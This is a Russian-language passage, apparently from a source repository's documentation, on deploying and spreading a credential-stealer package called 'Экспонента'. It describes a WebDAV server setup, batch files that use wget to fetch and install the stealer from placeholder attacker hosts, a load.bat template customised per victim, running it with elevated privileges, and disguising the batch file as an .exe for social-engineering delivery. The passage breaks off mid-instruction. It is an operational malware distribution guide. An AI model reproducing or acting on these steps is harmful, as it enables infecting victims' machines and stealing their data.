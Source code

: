 Применительно к серверу Apache, «хозяин» должен дополнительно установить на сервер модули dav, dav_fs,  поддержки базовой аутентикации, а в описаниях каталогов этих серверов указать опции “Dav On” и директивы поддержки базовой аутентикации. Кроме того, создаётся файл с учётными записями для базовой аутентикации в корневом каталоге сервера и запрещается к нему доступ со стороны веб-сервера. В принципе, файлы для создания и конфигурации хостинга на сервере Zomro указаны в каталоге /Files/Server-Init.


СОЗДАНИЕ ДИСТРИБУТИВА ДЛЯ РАСПРОСТРАНЕНИЯ МЕТОДОМ СОЦИАЛЬНОЙ ИНЖЕНЕРИИ
=====

Устанавливать файлы стайлера локально или через удалённый доступ — неправильная идея со всех сторон. Поскольку пакет для работы требует Интернет, то и устанавливаться он должен также из Интернета. Ниже будет рассказано, как подготовить файл для загрузки пакета из Интернета и сокрытия установки методами социальной инженерии.


Подготовка установочного файла
-----

Для «нормальной» установки стайлера в этом каталоге присутствуют файлы:

- load_distrib.bat — общий для всех файл, скачивающий и устанавливающий файлы дистрибутива стайлера «Экспонента»;

- load.bat — пример кастомизированного под конкретную жертву файла загрузки стайлера.

- wget.exe — собственно программа для скачки установочных файлов с сервера Hacker_host1

Назначение первого файла — открытие портов для FTP и веб-клиента, подготовка файла сценария и скачивание дистрибутива этим клиентом, а также запуск локального установщика стайлера. Информацию для этого пакетный файл получает из командной строки.

Единственное назначение второго файла — запуск первого файла с заполненными по умолчанию параметрами кастомизации. Дело в том, что запустить файл из Интернета с параметрами затруднительно, а с использованием методов социальной инженерии — невозможно. Только для этого и создан этот файл.

Формат этого файла следующий

Echo off
start load_distrib.bat «значение переменной Hacker_User» «значение переменной Hacker_Pass» «значение переменной Hacker_host1» «значение переменной Hacker_host2»

Теперь для запуска процесса инсталляции нужно, поместить оба файла в один каталог, и запустить файл load.bat с повышенными привилегиями. Вариант, как это сделать на практике, смотри ниже.


Подготовка файла для пересылки на компьютер жертвы
-----

Подготовленные таким образом файлы устанавливают стайлер произвольной конфигурации на компьютер жертвы. Для этого запускается файл load.bat на компьютере жертвы из произвольного каталога, с повышенными привилегиями выполнения. Всё бы хорошо… Только переслать файл с таким расширением на компьютер жертвы будет проблематично, а запустить такой файл с повышенными привилегиями, в обычных условиях пользователю будет невозможно. Администратора такой файл насторожит, а лузеры не умеют запускать командные файлы.

К счастью для хакеров, есть программа для конверсии командных файлов в исполняемые файлы с расширением *.exe. Для установки программы подаётся команда:
